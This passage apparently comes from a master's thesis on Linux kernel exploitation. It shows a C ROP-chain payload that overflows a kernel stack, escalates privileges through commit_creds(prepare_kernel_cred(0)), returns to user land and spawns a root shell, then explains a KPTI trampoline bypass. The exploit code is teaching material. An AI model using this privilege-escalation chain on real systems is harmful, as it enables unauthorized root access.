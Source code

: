 \documentclass{masterthesis}
\newcommand{\refToSubSection}[1]{Subsection~\ref{subsect:#1}\xspace}
\begin{document}
\begin{lstlisting}
void get_shell(void){
    puts("[*] Returned to user-land");
    if (getuid() == 0){
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    } else {
        printf("[!] UID: %d, did not get root\n", getuid());
        exit(-1);
    }
}
unsigned long user_rip = (unsigned long)get_shell;

unsigned long pop_RDI_ret = 0xffffffff81006370;
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop RBX ; pop RBP ; ret
unsigned long mov_RDI_RAX_jne_pop2_ret = 0xffffffff8166fea3; // mov RDI, RAX ; jne 0xffffffff8166fe7a ; pop RBX ; pop RBP ; ret
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long swapgs_pop1_ret = 0xffffffff8100a55f; // swapgs ; pop RBP ; ret
unsigned long iretq = 0xffffffff8100c0d9;

void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // RBX
    payload[off++] = 0x0; // R12
    payload[off++] = 0x0; // RBP
    payload[off++] = pop_RDI_ret; // return address
    payload[off++] = 0x0; // RDI <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8; // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE does not branch
    payload[off++] = 0x0; // dummy RBX
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = mov_RDI_RAX_jne_pop2_ret; // RDI <- RAX
    payload[off++] = 0x0; // dummy RBX
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = swapgs_pop1_ret; // swapgs
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = iretq; // iretq frame
    payload[off++] = user_rip;
    .....
}

\end{lstlisting}
\section{Adding KPTI}
\label{sect:trampoline}
As mentioned in \refToSubSection{KPTI} the user-space and kernel-space page tables are separate. In fact, in user mode, a page set includes user-space page tables and only a few kernel-space addresses.
There are several ways to bypass this mitigation, but the one we are going to look at is called a \emph{trampoline}.
Logically, if a system call returns correctly there must be a piece of code in the kernel that swaps the page tables to the user-land, so we will try to reuse that code for our purpose.
This piece of code is called trampoline and swaps the page tables, \texttt{swapgs}, and \texttt{iretq}.
\end{document}
